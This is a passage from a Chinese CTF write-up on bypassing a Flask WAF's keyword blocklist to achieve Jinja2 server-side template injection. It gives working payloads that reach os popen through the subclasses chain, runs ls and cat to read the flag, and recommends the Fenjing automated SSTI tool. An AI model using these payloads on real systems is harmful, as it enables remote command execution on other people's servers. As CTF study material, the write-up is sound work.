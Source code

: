 首先源码说`file`参数过滤了`proc`，笔者很好奇这是什么，去查了一下，原来`proc`是根目录下的一个文件夹，保存着很多服务器正在运行的进程信息。具体关于`proc`的应用笔者找到一篇blog：[proc目录在ctf中的应用](https://hackerqwq.github.io/2021/04/04/proc%E7%9B%AE%E5%BD%95%E5%9C%A8ctf%E4%B8%AD%E7%9A%84%E5%BA%94%E7%94%A8/#proc%E7%9B%AE%E5%BD%95)，值得一学。

回到正题，继续审计代码，`shell`下显然存在参数为`name`的ssti注入(`render_template_string`函数)，但是这个`waf`过滤了这些：` ['os', 'set', '__builtins__', '=', '.', '{{', '}}', 'popen', '+', '__'] `。因此就是ssti的过滤绕过了。

如果我们还是想用comment_me一样的方法可以怎么做呢，看上去限制很多，但其实就和没有限制一样，几个关键的步骤是：

1. `{{...}}`用来输出内容,如被过滤可以使用`{%...%}`，其表示陈述性语句，所以我们给它加一个`print()`用来输出就好了；
2. `.`与上一题一样，用`['']`拼接代替`.`即可；
3. 字符串拼接不一定需要`+`，`'a'+'b'`与`'a''b'`是一样的效果；
4. `_`可以用十六进制编码`\x5f`代替；
5. 由于本题没有过滤`request`参数，所以用传参方式也可以完成。

比如下面三个`payload`都可以获取字符串的类:
1. `{%print(''['_''_class_''_'])%}`
2. `{%print(''['\x5f\x5fclass\x5f\x5f'])%}`
3. `{%print(''[request['args']['a']])%}&a=__class__`

我们就选择第一种拼接字符串的方式好了，首先构造payload读出可用的类:
`{%print(''['_''_class_''_']['_''_base_''_']['_''_subclasses_''_']())%}`

然后找到`<class 'os._wrap_close'>`的索引为132，继续构造payload读出当前目录下的文件：
`{%print(''['_''_class_''_']['_''_base_''_']['_''_subclasses_''_']()[132]['_''_init_''_']['_''_globals_''_']['p''open']('ls')['read']())%}`
如下：`__pycache__ app.py f1ag_H3re11 requirements.txt waf.py`

读flag就好了：
`{%print(''['_''_class_''_']['_''_base_''_']['_''_subclasses_''_']()[132]['_''_init_''_']['_''_globals_''_']['p''open']('cat f1ag_H3re11')['read']())%}`

PS:
1. 官方wp上来一个g给我整不会了，有点没看懂。
2. 一篇相当不错的绕过姿势blog:[最全SSTI模板注入waf绕过总结](https://blog.csdn.net/2301_76690905/article/details/134301620)

另外，笔者还了解到一个全自动化ssti注入的工具：[Fenjing-https://github.com/Marven11/Fenjing](https://github.com/Marven11/Fenjing)，笔者这才明白题目要限制访问次数，但是我们可以在本地尝试完成寻找`payload`的过程：手动把访问限制去除掉，在本地启动flask服务然后启动fenjing。

基本安装：
1. 启动虚拟环境
2. pip install fenjing
3. fenjing webui

设置界面(对于本题而言):